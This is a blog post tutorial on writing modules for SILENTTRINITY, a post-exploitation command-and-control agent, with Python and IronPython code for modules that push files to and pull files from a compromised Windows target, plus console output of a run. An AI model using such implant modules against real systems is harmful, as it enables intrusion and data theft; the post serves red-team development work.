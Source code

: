 ```yaml
---
layout: post
title:  "Writing a basic Module for SILENTTRINITY"
date:   2018-10-21 18:47:00 -0400
categories:
  - Code
tags:
  - Python
  - SILENTTRINITY
  - IronPython
  - Pentesting
---
```


***SILENTTRINITY*** is a post-exploitation agent powered by Python, IronPython and C#/.NET written by [byt3bl33d3r](https://twitter.com/byt3bl33d3r), also author of [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), the swiss army knife for pentesting networks. SILENTTRINITY was presented at DerbyCon 8.0 and everybody was really impressed (yes, I was also there). I really like C# (.NET) and Python, those are my favorites programming languages and [IronPython](https://github.com/IronLanguages/ironpython2) looks really promising. So why not contribute to this project? ![SILENTTRINITY][SILENTTRINITY-screenshot]

### How does this work?

The next image explains by itself how is the dynamic here. ![SILENTTRINITY-DIAGRAM][SILENTTRINITY-diagram]

The idea is really simple: we run our initial stager, the target ask for the payload and the encrypted communication continues back and forward waiting for a job, once a job is received the target executes the job (written in IronPython) and the output is sent to the server. I highly recommend to watch Marcello's talk to have a better idea of what we're talking about here and learn the beauty of SILENTTRINITY:

[![Track 2 05 IronPython omfg Marcello Salvati](https://img.youtube.com/vi/NaFiAx737qg/0.jpg)](https://www.youtube.com/watch?v=NaFiAx737qg)

### Let's code, baby!

This is the fun part. In order to have your Developer Environment up and running follow this Wiki: [Setting up your development environment](https://github.com/byt3bl33d3r/SILENTTRINITY/wiki/Setting-up-your-development-environment). I'm using [PyCharm Community Edition](https://www.jetbrains.com/pycharm/) and I'm running [Python 3.7.0](https://www.python.org/downloads/release/python-370/) on macOS. After creating a *virtualenv* and importing the `Server` folder into the IDE, we're ready to write some code, but first I'm sharing my PyCharm setting to show you how to properly debug Console apps:

![PyCharm Debug][SILENTTRINITY-pycharm-debug]

Cool. I'm going to use a simple module written by me called [Uploader](https://github.com/byt3bl33d3r/SILENTTRINITY/pull/12).

```python
class STModule:
    def __init__(self):
        self.name = 'uploader'
        self.description = 'Upload a file to a destination path.'
        self.author = '@davidtavarez'
        self.options = {
            'File': {
                'Description': 'The absolute path of the file.',
                'Required': True,
                'Value': None
            },
            'Destination': {
                'Description': 'The destination path of the file.',
                'Required': False,
                'Value': "C:\\\\WINDOWS\\\\Temp\\\\"
            }
        }

    def payload(self):
        if self.options['File']['Value'] is None:
            return None

        import os
        import base64

        if not os.path.exists(self.options['File']['Value']):
            from core.utils import print_bad
            print_bad("Selected file do not exists.")
            return None

        with open(self.options['File']['Value'], "rb") as file:
            encoded_string = base64.b64encode(file.read()).decode("utf-8")

        with open('modules/src/uploader.py', 'r') as module_src:
            src = module_src.read()
            src = src.replace("FILENAME", os.path.basename(self.options['File']['Value']))
            src = src.replace("DESTINATION", self.options['Destination']['Value'])
            src = src.replace("DATA", encoded_string)
            return src.encode()
```

As you can notice, the class of the module must be called `STModule` and must include a `Constructor` and a definition of the method called `payload`. Our constructor must contain at least the next properties:

* ***name***: the name of the module.
* ***description***: a short summary of what your module does.
* ***author***: your handle.
* ***options***: the options accepted in your module.

All options are displayed after we decided to use the module and run the `options` command:

```
ST (modules) ≫ use uploader  
ST (modules)(uploader) ≫ options
+-------------+----------+---------------------+-----------------------------------+
| Option Name | Required | Value               | Description                       |
+-------------+----------+---------------------+-----------------------------------+
| File        | True     | None                | The absolute path of the file.    |
+-------------+----------+---------------------+-----------------------------------+
| Destination | False    | C:\\WINDOWS\\Temp\\ | The destination path of the file. |
+-------------+----------+---------------------+-----------------------------------+
ST (modules)(uploader) ≫
```

To set a value we need to use the `set` command like this:

```
ST (modules)(uploader) ≫ set File /Users/davidtavarez/uploader.txt
ST (modules)(uploader) ≫ options
+-------------+----------+----------------------------------+-----------------------------------+
| Option Name | Required | Value                            | Description                       |
+-------------+----------+----------------------------------+-----------------------------------+
| File        | True     | /Users/davidtavarez/uploader.txt | The absolute path of the file.    |
+-------------+----------+----------------------------------+-----------------------------------+
| Destination | False    | C:\\WINDOWS\\Temp\\              | The destination path of the file. |
+-------------+----------+----------------------------------+-----------------------------------+
ST (modules)(uploader) ≫ 
```

### The payload

The payload that is written in IronPython is sent to the target using the `payload` method and the source code should be placed inside the folder named `src`.

```python
from System import Convert
from System.IO import File


def DecodeBase64File(Data, FileName, FilePath="C:\\WINDOWS\\Temp\\"):
    path = "{}{}".format(FilePath, FileName)
    File.WriteAllBytes(path,Convert.FromBase64String(Data))
    return 'File copied to: {}'.format(path)

print DecodeBase64File("DATA", "FILENAME", FilePath="DESTINATION")
```

The "tricky" part resides here: `print DecodeBase64File("DATA", "FILENAME", FilePath="DESTINATION")`. We're calling `print` to read the results of `DecodeBase64File`, so the output is sent to the server:

```
ST (modules)(uploader) ≫ run all
[+] d53c4737-c23e-4ec6-875a-c59e8ffa7056 returned job result (id: TmbazEXM)
File copied to: C:\WINDOWS\Temp\uploader.txt
```

Going back to the module code, we're replacing *DATA* with the content of the file named *FILENAME* and then, passing the *DESTINATION* folder to the payload.

![It's working!][UPLOADER-screenshot]

That's it! Summarizing, there are just two steps:

1. Create a class called: STModule with a constructor and a method named: `payload`.
2. Create your IronPython payload and pass the values taken from `options`.

### But... there's more...

I really wanted to manage the output using my module, so I send a [Pull Request](https://github.com/byt3bl33d3r/SILENTTRINITY/pull/15) for this. This is how my base class looks now:

```python
class Module:
    def __init__(self):
        self.name = 'module'
        self.description = ''
        self.author = ''
        self.options = {}

    def process(self, result):
        print(result)
```

I did create a new module called: [Downloader](https://github.com/byt3bl33d3r/SILENTTRINITY/pull/15/commits/f1c73b3341b91fea01988f18af9b60bcde6767ab) just as PoC:


```python
...
    def process(self, result):
        b64_string = result.replace("\n", "").replace("\r", "")
        b64_string += "=" * ((4 - len(b64_string) % 4) % 4)
        b64_string = b64_string.encode()

        ba = bytes(b64_string)

        with open(self.path, "wb") as file:
            file.write(base64.decodebytes(ba))

        print_good("File was downloaded successfully: {}".format(self.path))
```

Now we can have control of the response just overwritting the method: `process`.

[SILENTTRINITY-screenshot]: https://raw.githubusercontent.com/davidtavarez/davidtavarez.github.io/master/_images/posts/SILENTTRINITY_screenshot.png
[SILENTTRINITY-diagram]: https://user-images.githubusercontent.com/5151193/46646842-cd2b0580-cb49-11e8-9218-73226e977d58.png
[SILENTTRINITY-pycharm-debug]: https://raw.githubusercontent.com/davidtavarez/davidtavarez.github.io/4aa7a53f11c9ce9ed9957e60b1abace95afe5dda/_images/posts/pycharm_debug_SILENTTRINITY.png
[UPLOADER-screenshot]: https://user-images.githubusercontent.com/337107/46912579-41e5b180-cf47-11e8-8adf-d4873ee624ac.png